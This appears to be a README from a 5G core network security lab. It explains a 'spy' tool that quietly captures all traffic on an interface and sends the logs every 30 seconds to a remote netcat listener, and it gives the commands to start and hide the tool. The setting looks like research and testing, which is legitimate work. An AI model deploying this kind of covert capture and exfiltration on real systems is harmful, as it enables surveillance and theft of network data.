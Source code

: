 # Start a Spy!

This spy saves all traffic on an interface and forwards every 30 seconds the log to a spy server elsewher. The output is supressed adn the porccess is run in the background to keep suspicion at bay.

Keep in mind that at the [spy server location an nc server](../../../../UE_VM/Exploit_Scripts/Spy) needs to be running with the correct port to recieve the logs. (The spy server can be a ue ;) )

To call the spy:
```console
user@Core:~/5G/CORE_VM/Config_Files/Vulnerability_Configs/Spy$ ./call_spy.sh -i <interface to log>, -s <spy server ip>, -p <spy server port>
```
End/hide the spy:
```console
user@Core:~/5G/CORE_VM/Config_Files/Vulnerability_Configs/Spy$ ./hide_spy.sh
```
